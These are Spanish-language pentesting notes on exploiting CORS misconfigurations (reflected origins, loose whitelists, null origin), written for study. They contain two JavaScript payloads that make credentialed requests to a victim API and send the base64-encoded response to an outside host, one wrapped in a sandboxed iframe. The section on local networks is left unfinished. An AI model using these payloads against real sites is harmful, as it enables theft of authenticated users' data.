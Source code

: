### Contexto

- La mayoría de los ataques en CORS requieren que la header **Access-Control-Allow-Credentials** esté seteada en **true** para poder tener un contexto de autenticación de la víctima.
- De lograrse un ataque teniendo en cuenta el caso anterior saliendo desde un servicio controlado por el atacante la vulnerabilidad es similar al CSRF pero más severa.
- Dependiendo de la configuración específica del CORS el atacante puede potencialmente interactuar con la aplicación impersonando a la victima y ejecutando acciones sobre su comportamiento.


Si la header Access-Control-Allow-Credentials no está seteada, el atacante no podrá continuar con los ataques antes mencionados. Sin embargo, **una mala configuración de CORS en una aplicación web interna puede permitir a un atacante exfiltrar información no pública**

---

## Arbitrary Origin Reflection

La header Access-Control-Allow-Origin contiene los origenes que tienen permitido baypassear la SOP. El header puede ser seteado con un wildcard (*) que resulta en el permiso de todos los origenes.Por motivos de seguridad **EL WIDLCARD NUNCA DEBE SER SER COMBINADO CON Access-Control-Allow-Credentias seteado a true**

Podemos identificarla si vemos que en la cabecera Access-Control-allow-Origin de la response se refleja la cabeceras Origin o Referer de la request.

Si esto último se da y la header Access-Control-Allow-Credentials está seteada en true podemos explotarla.

### Explotación:

Creamos un payload en un sitio controlado por nosotros donde se indique el recurso a exfiltrar por medio de un get, que se haga con credenciales, el sitio al que van a ser reenviados los datos y luego un send de manera automática. Y se lo hacemos llegar a la víctima.

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>

## Improper Origin Whitelist

Esta explotación se basa en un error de configuración en la implementación de whitelist de los trusted origin. Requiere nuevamente el header Access-Control-Allow-Credentials seteado en true.

Imaginamos que el sitio *api.vulnerable.com* quiere permitir las request de todos los subdominios de *vulnerable.com*. Al validar el origen solo se fijará en que el mismo termine en *vulnerable.com* sin importar qué venga detrás. 

Esto permite a un atacante crear una web llamada **attackervulnerable.com** y cumplir con los requisiros del filtro de la whitelist.

La explotación es, entonces, exáctamente igual a la de arbitrary origin reflection.


## Trusted Null Origin.

La explotación se da cuando la cabecera de la response Access-Control-Allow-Origin está seteada en null y la header Access-Control-Allow-Credentials está seteada a true.

**EN LA PRACTICA LA CABECERA ACCESS-CONTROL-ALLOW-ORIGIN NUNCA DEBE ESTAR SETEADA EN NULL**. Sin embargo, los programadores suele confundirse con el sigificado de la misma pensando que es un "bloqueador total".

### Explotación.
La explotación es muy similar a las anteriores pero dentro de un **iframe**. De esta manera no es el sitio el que está haciendo la request sino el objeto (iframe), de esta manera el origen es nulo.

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>"></iframe>

## Targeting The local network

# Continuará...
